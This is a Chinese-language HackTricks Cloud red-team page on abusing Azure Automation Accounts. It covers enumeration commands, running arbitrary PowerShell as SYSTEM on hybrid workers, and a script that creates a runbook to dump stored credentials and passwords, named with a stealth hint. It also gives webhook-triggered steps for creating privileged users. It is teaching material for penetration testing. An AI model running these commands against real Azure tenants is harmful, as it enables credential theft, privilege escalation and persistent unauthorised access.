 # Az - Automation Account

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/azure/automation/overview) Azure Automation 提供基于云的自动化、操作系统更新和配置服务，支持在 Azure 和非 Azure 环境中进行一致的管理。它包括过程自动化、配置管理、更新管理、共享功能和异构特性。

这些就像 Azure 中的 "**计划任务**"，可以让你执行操作（动作或甚至脚本）来 **管理**、检查和配置 **Azure 环境**。

### 运行作为账户

当使用 **运行作为账户** 时，它会创建一个带有自签名证书的 Azure AD **应用程序**，创建一个 **服务主体** 并为该账户在 **当前订阅** 中分配 **贡献者** 角色（拥有很多权限）。\
微软建议为自动化账户使用 **托管身份**。

{% hint style="warning" %}
这将在 2023 年 9 月 30 日 **被移除并更改为托管身份。**
{% endhint %}

## 运行书和作业

**运行书** 允许你 **执行任意 PowerShell** 代码。这可能会被 **攻击者滥用** 来窃取 **附加主体** 的权限（如果有的话）。\
在 **运行书** 的 **代码** 中，你也可能会找到 **敏感信息**（例如凭据）。

如果你可以 **读取** **作业**，请这样做，因为它们 **包含** 运行的 **输出**（潜在的 **敏感信息**）。

转到 `自动化账户` --> `<选择自动化账户>` --> `运行书/作业/混合工作者组/观察者任务/凭据/变量/证书/连接`

### 混合工作者

运行书可以在 **Azure 内的容器** 或 **混合工作者**（非 Azure 机器）中运行。\
**日志分析代理** 部署在虚拟机上以将其注册为混合工作者。\
混合工作者作业在 Windows 上以 **SYSTEM** 身份运行，在 Linux 上以 **nxautomation** 账户运行。\
每个混合工作者都注册在 **混合工作者组** 中。

因此，如果你可以选择在 **Windows 混合工作者** 中运行 **运行书**，你将以 **System** 身份在外部机器上执行 **任意命令**（很好的转移技术）。

## 破坏状态配置 (SC)

[来自文档：](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview) Azure Automation **状态配置** 是一种 Azure 配置管理服务，允许你为任何云或本地数据中心的节点编写、管理和编译 PowerShell 所需状态配置 (DSC) [配置](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations)。该服务还导入 [DSC 资源](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources)，并将配置分配给目标节点，所有这些都在云中。你可以通过在 Azure 门户中选择 **状态配置 (DSC)** 在 **配置管理** 下访问 Azure Automation 状态配置。

**敏感信息** 可能会在这些配置中找到。

### RCE

可以滥用 SC 在受管机器上运行任意脚本。

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## 枚举

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### 创建一个 Runbook

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
{% endcode %}

### 通过运行簿从自动化帐户中提取凭据和变量

{% code overflow="wrap" %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
您可以通过修改现有的运行手册，并从网络控制台执行相同的操作。
{% endhint %}

### 设置自动化高权限用户创建的步骤

#### 1. 初始化自动化帐户

* **所需操作：** 创建一个新的自动化帐户。
* **特定设置：** 确保启用“创建 Azure Run As 帐户”。

#### 2. 导入并设置运行手册

* **来源：** 从 [MicroBurst GitHub Repository](https://github.com/NetSPI/MicroBurst) 下载示例运行手册。
* **所需操作：**
* 将运行手册导入到自动化帐户中。
* 发布运行手册以使其可执行。
* 将网络钩子附加到运行手册，启用外部触发。

#### 3. 配置 AzureAD 模块

* **所需操作：** 将 AzureAD 模块添加到自动化帐户中。
* **附加步骤：** 确保所有 Azure 自动化模块已更新到最新版本。

#### 4. 权限分配

* **要分配的角色：**
* 用户管理员
* 订阅所有者
* **目标：** 将这些角色分配给自动化帐户以获得必要的权限。

#### 5. 注意潜在的访问丧失

* **注意：** 请注意，配置此类自动化可能会导致失去对订阅的控制。

#### 6. 触发用户创建

* 通过发送 POST 请求触发网络钩子以创建新用户。
* 使用提供的 PowerShell 脚本，确保将 `$uri` 替换为您的实际网络钩子 URL，并更新 `$AccountInfo` 以包含所需的用户名和密码。
```powershell
$uri = "<YOUR_WEBHOOK_URL>"
$AccountInfo  = @(@{RequestBody=@{Username="<DESIRED_USERNAME>";Password="<DESIRED_PASSWORD>"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
## 参考文献

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
